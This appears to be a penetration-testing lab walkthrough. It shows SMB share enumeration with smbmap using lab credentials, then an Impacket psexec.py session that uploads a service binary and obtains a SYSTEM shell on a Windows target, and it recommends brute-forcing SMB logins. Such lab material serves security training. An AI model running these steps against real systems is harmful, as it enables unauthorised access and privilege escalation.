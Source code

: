 In order to utilize PsExec to gain access to a Windows target, we will need to identify legitimate user accounts and their respective passwords or password hashes. This can be done by leveraging various tools and techniques, however, the most common technique will involve performing an SMB login brute-force attack. We can narrow down our brute-force attack to only include common Windows user
accounts like: Administrator.

After we have obtained a legitimate user account and password, we can use the credentials to authenticate with the target system via PsExec and execute arbitrary system commands or obtain a reverse shell.

<br />

**Gather shares with smbmap**

```bash
root@attackdefense:~# smbmap -H 10.4.19.178 -u demo -p victoria
[+] Finding open SMB ports....
[+] User SMB session established on 10.4.19.178...
[+] IP: 10.4.19.178:445	Name: 10.4.19.178                                       
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	admin                                             	NO ACCESS	
	ADMIN$                                            	NO ACCESS	Remote Admin
	C                                                 	READ, WRITE	
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	public                                            	READ, WRITE	

root@attackdefense:~# smbmap -H 10.4.19.178 -u administrator -p qwertyuiop
[+] Finding open SMB ports....
[+] User SMB session established on 10.4.19.178...
[+] IP: 10.4.19.178:445	Name: 10.4.19.178                                       
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	admin                                             	READ, WRITE	
	ADMIN$                                            	READ, WRITE	Remote Admin
	C                                                 	READ, WRITE	
	C$                                                	READ, WRITE	Default share
	IPC$                                              	READ ONLY	Remote IPC
	public                                            	READ, WRITE	

```

user `demo` does not have access to `	ADMIN$   ` while `administrator` has

<br />

```bash
root@attackdefense:~# psexec.py administrator@10.4.19.178 cmd.exe
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.4.19.178.....
[*] Found writable share admin
[*] Uploading file UTFKeDZS.exe
[*] Opening SVCManager on 10.4.19.178.....
[*] Creating service bUwC on 10.4.19.178.....
[*] Starting service bUwC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system


```